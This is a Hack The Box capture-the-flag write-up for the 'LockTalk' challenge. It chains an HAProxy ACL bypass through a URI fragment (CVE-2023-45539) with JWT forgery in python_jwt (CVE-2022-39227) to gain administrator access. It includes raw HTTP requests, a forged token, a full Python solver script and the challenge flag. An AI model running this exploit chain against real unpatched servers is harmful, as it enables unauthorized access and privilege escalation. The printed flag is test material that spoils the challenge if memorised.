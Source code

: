 ![](https://raw.githubusercontent.com/hackthebox/writeup-templates/master/challenge/assets/images/banner.png)

<img src="https://github.com/hackthebox/writeup-templates/raw/master/challenge/assets/images/htb.png" style="margin-left: 20px; zoom: 60%;" align=left /> <font size="10">LockTalk</font>

​ DD<sup>th</sup> Feb 2024

​ Challenge Author(s): **dhmosfunk**

### Description:

In "The Ransomware Dystopia," LockTalk emerges as a beacon of resistance against the rampant chaos inflicted by ransomware groups. In a world plunged into turmoil by malicious cyber threats, LockTalk stands as a formidable force, dedicated to protecting society from the insidious grip of ransomware. Chosen participants, tasked with representing their districts, navigate a perilous landscape fraught with ethical quandaries and treacherous challenges orchestrated by LockTalk. Their journey intertwines with the organization's mission to neutralize ransomware threats and restore order to a fractured world. As players confront internal struggles and external adversaries, their decisions shape the fate of not only themselves but also their fellow citizens, driving them to unravel the mysteries surrounding LockTalk and choose between succumbing to despair or standing resilient against the encroaching darkness.

### Objective

HAProxy CVE-2023-45539 => python_jwt CVE-2022-39227

### Difficulty:

`medium`

### Flag:

`HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}`

# Challenge

![](assets/challenge.PNG)

### Get access ticket by bypassing HAProxy ACL with **#** fragment 
Based on [CVE-2023-45539 advisory description](https://www.cvedetails.com/cve/CVE-2023-45539/), HAProxy accepts # (fragment) as part of URI, which allows ACL bypass on blocked endpoint by frontend. \
In the given application, there is an ACL for **/api/v1/get_ticket** endpoint.
```bash
...

http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }

...
```
By utilizing the # fragment on the /api/v1/get_ticket endpoint, we can bypass the ACL, obtain the JWT token, and proceed with the next stage of exploitation.
```bash
GET /api/v1/get_ticket# HTTP/1.1
Host: localhost:1337
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Connection: close
```
```bash
HTTP/1.1 200 OK
content-type: application/json
content-length: 554
server: uWSGI Server
connection: close

{"ticket: ":"[JWT_TOKEN]"}
```

### Forging a new JWT Token with tampered claims in order to bypass role restrictions
python_jwt module version 3.3.3 is vulnerable to forging new valid JWT tokens without knowing the secret used by the backend to verify the JWT tokens. Exploiting this vulnerability, a user could bypass role restrictions and hijack user identities by tampering with existing token claims and adding new ones. \
 \
Exploit involves constructing a fake JWT by tampering with the payload section while preserving the original header and signature. Through careful manipulation of base64-encoded payload data, attackers can inject unauthorized claims such as altering user identities or extending token expiration times.

In order to forge a new token with tampered claims, we need to obtain a valid JWT token from the */api/v1/get_ticket* endpoint. \

Let's create the script for generating a tampered token. First, we need to parse the three parts of the JWT token: header, payload, and signature.
```python
[header, payload, signature] = token.split(".")
```
\
Decode from base64 and parse into a JSON object the JWT token. \
On the second line we change the role of the JWT token to administrator
```python
parsed_payload = loads(base64url_decode(payload))
parsed_payload["role"] = "administrator"
```
\
Generate final JWT token. The fake_payload line its serializes the `parsed_payload` JSON object into a string using `json.dumps` with custom seperators such as  (, for items and ':' for key-value pairs). Then, it encodes the string using `base64url_encode` which encodes the string to a valid base64 format. \

The return statement constructs a new JWT token string. It includes:
- header: The original header of the JWT token.
- fake_payload: The manipulated payload, which has been encoded and formatted.
- "":"": An empty field between the header and payload.
- "protected": The header again.
- "payload": The original payload.
- "signature": The original signature.
```python
fake_payload = base64url_encode((dumps(parsed_payload, separators=(',',':'))))
return '{" ' + header + '.'+ fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'
```

### Get the flag
After generating the final JWT token, a GET flag request should look like the following:
```bash
GET /api/v1/flag HTTP/1.1
Host: localhost:1337
Authorization: {" eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MDkxMzQ5MzgsImlhdCI6MTcwOTEzMTMzOCwianRpIjoiaEF3Yy0wN3Z6S1J0ZE5CVFRCTHIxQSIsIm5iZiI6MTcwOTEzMTMzOCwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MDkxMzQ5MzgsImlhdCI6MTcwOTEzMTMzOCwianRpIjoiaEF3Yy0wN3Z6S1J0ZE5CVFRCTHIxQSIsIm5iZiI6MTcwOTEzMTMzOCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"hXIK5TCaHej4Q_ZNpXHb-e4Lssd8sFw1Xx9M-8hdKotb0OPwE5-tymyHXODh7TY2J6xHNCiKkGUYS9JwyDWuwQV7fAaospyE4njbEJOF3qiT-sXUkSbwMVMYHMQ9AiGsBJFjPaA__8l6NrqKKcBO-aPvg-7tlMA0YIbG_KewcRbnI7Bu1ewfkY4-0N4MVZdAuExETnal7FnKcTiyx0v8zKTwbkn1hf1ATLb8zkdisj_TAghukx_6r3VCB1slhbnmbHOPqpIOs5HdEu9v8KC74g23UqE7yvC2H_HRJuS73Y9Q6sARdmtUI1e0ooWyo7Lsv0zTA30Z47mrEIcVk2IWjg"}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Connection: close

```
```bash
HTTP/1.1 200 OK
content-type: application/json
content-length: 45
server: uWSGI Server
connection: close

{"message":"HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}"}
```

# Resources
[CVE-2023-45539 : HAProxy before 2.8.2 accepts # as part of the URI component, which might allow remote attackers to obtain sensitive info](https://www.cvedetails.com/cve/CVE-2023-45539/) \
[奇安信攻防社区-CVE-2022-39227漏洞分析](https://forum.butian.net/share/1990) \
[https://github.com/Casualtek/Ransomchats](https://github.com/Casualtek/Ransomchats)

# Solver

```python
from jwcrypto.common import base64url_encode, base64url_decode
from json import loads, dumps
import requests
import socket

def send_raw_http_request(host, port, request):
    client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    client_socket.connect((host, port))

    client_socket.sendall(request.encode())

    response = b""
    while True:
        recv_data = client_socket.recv(1024)
        if not recv_data:
            break
        response += recv_data

    client_socket.close()

    return response.decode()

def get_token(host,port):
    request = f"""GET /api/v1/get_ticket# HTTP/1.1\r\nHost: {host}:{port}\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36\r\nConnection: close\r\n\r\n"""

    response = send_raw_http_request(host, 1337, request)
    json_start = response.find("{")
    json_end = response.rfind("}") + 1
    json_data = response[json_start:json_end]

    ticket_dict = loads(json_data)
    token = ticket_dict.get("ticket: ") 

    return token

def exp(token):
    [header, payload, signature] = token.split(".")
    parsed_payload = loads(base64url_decode(payload))
    parsed_payload["role"] = "administrator"
    fake_payload = base64url_encode((dumps(parsed_payload, separators=(',',':'))))

    return '{" ' + header + '.'+ fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'

def get_flag(host,port,token):

    headers = {"Authorization": token}
    req = requests.get(f"http://{host}:{port}/api/v1/flag", headers=headers)
    
    return req

host = "localhost"
port = 1337

guest_token = get_token(host, port)
admin_token = exp(guest_token)
flag = get_flag(host, port, admin_token)

print(flag.text)
```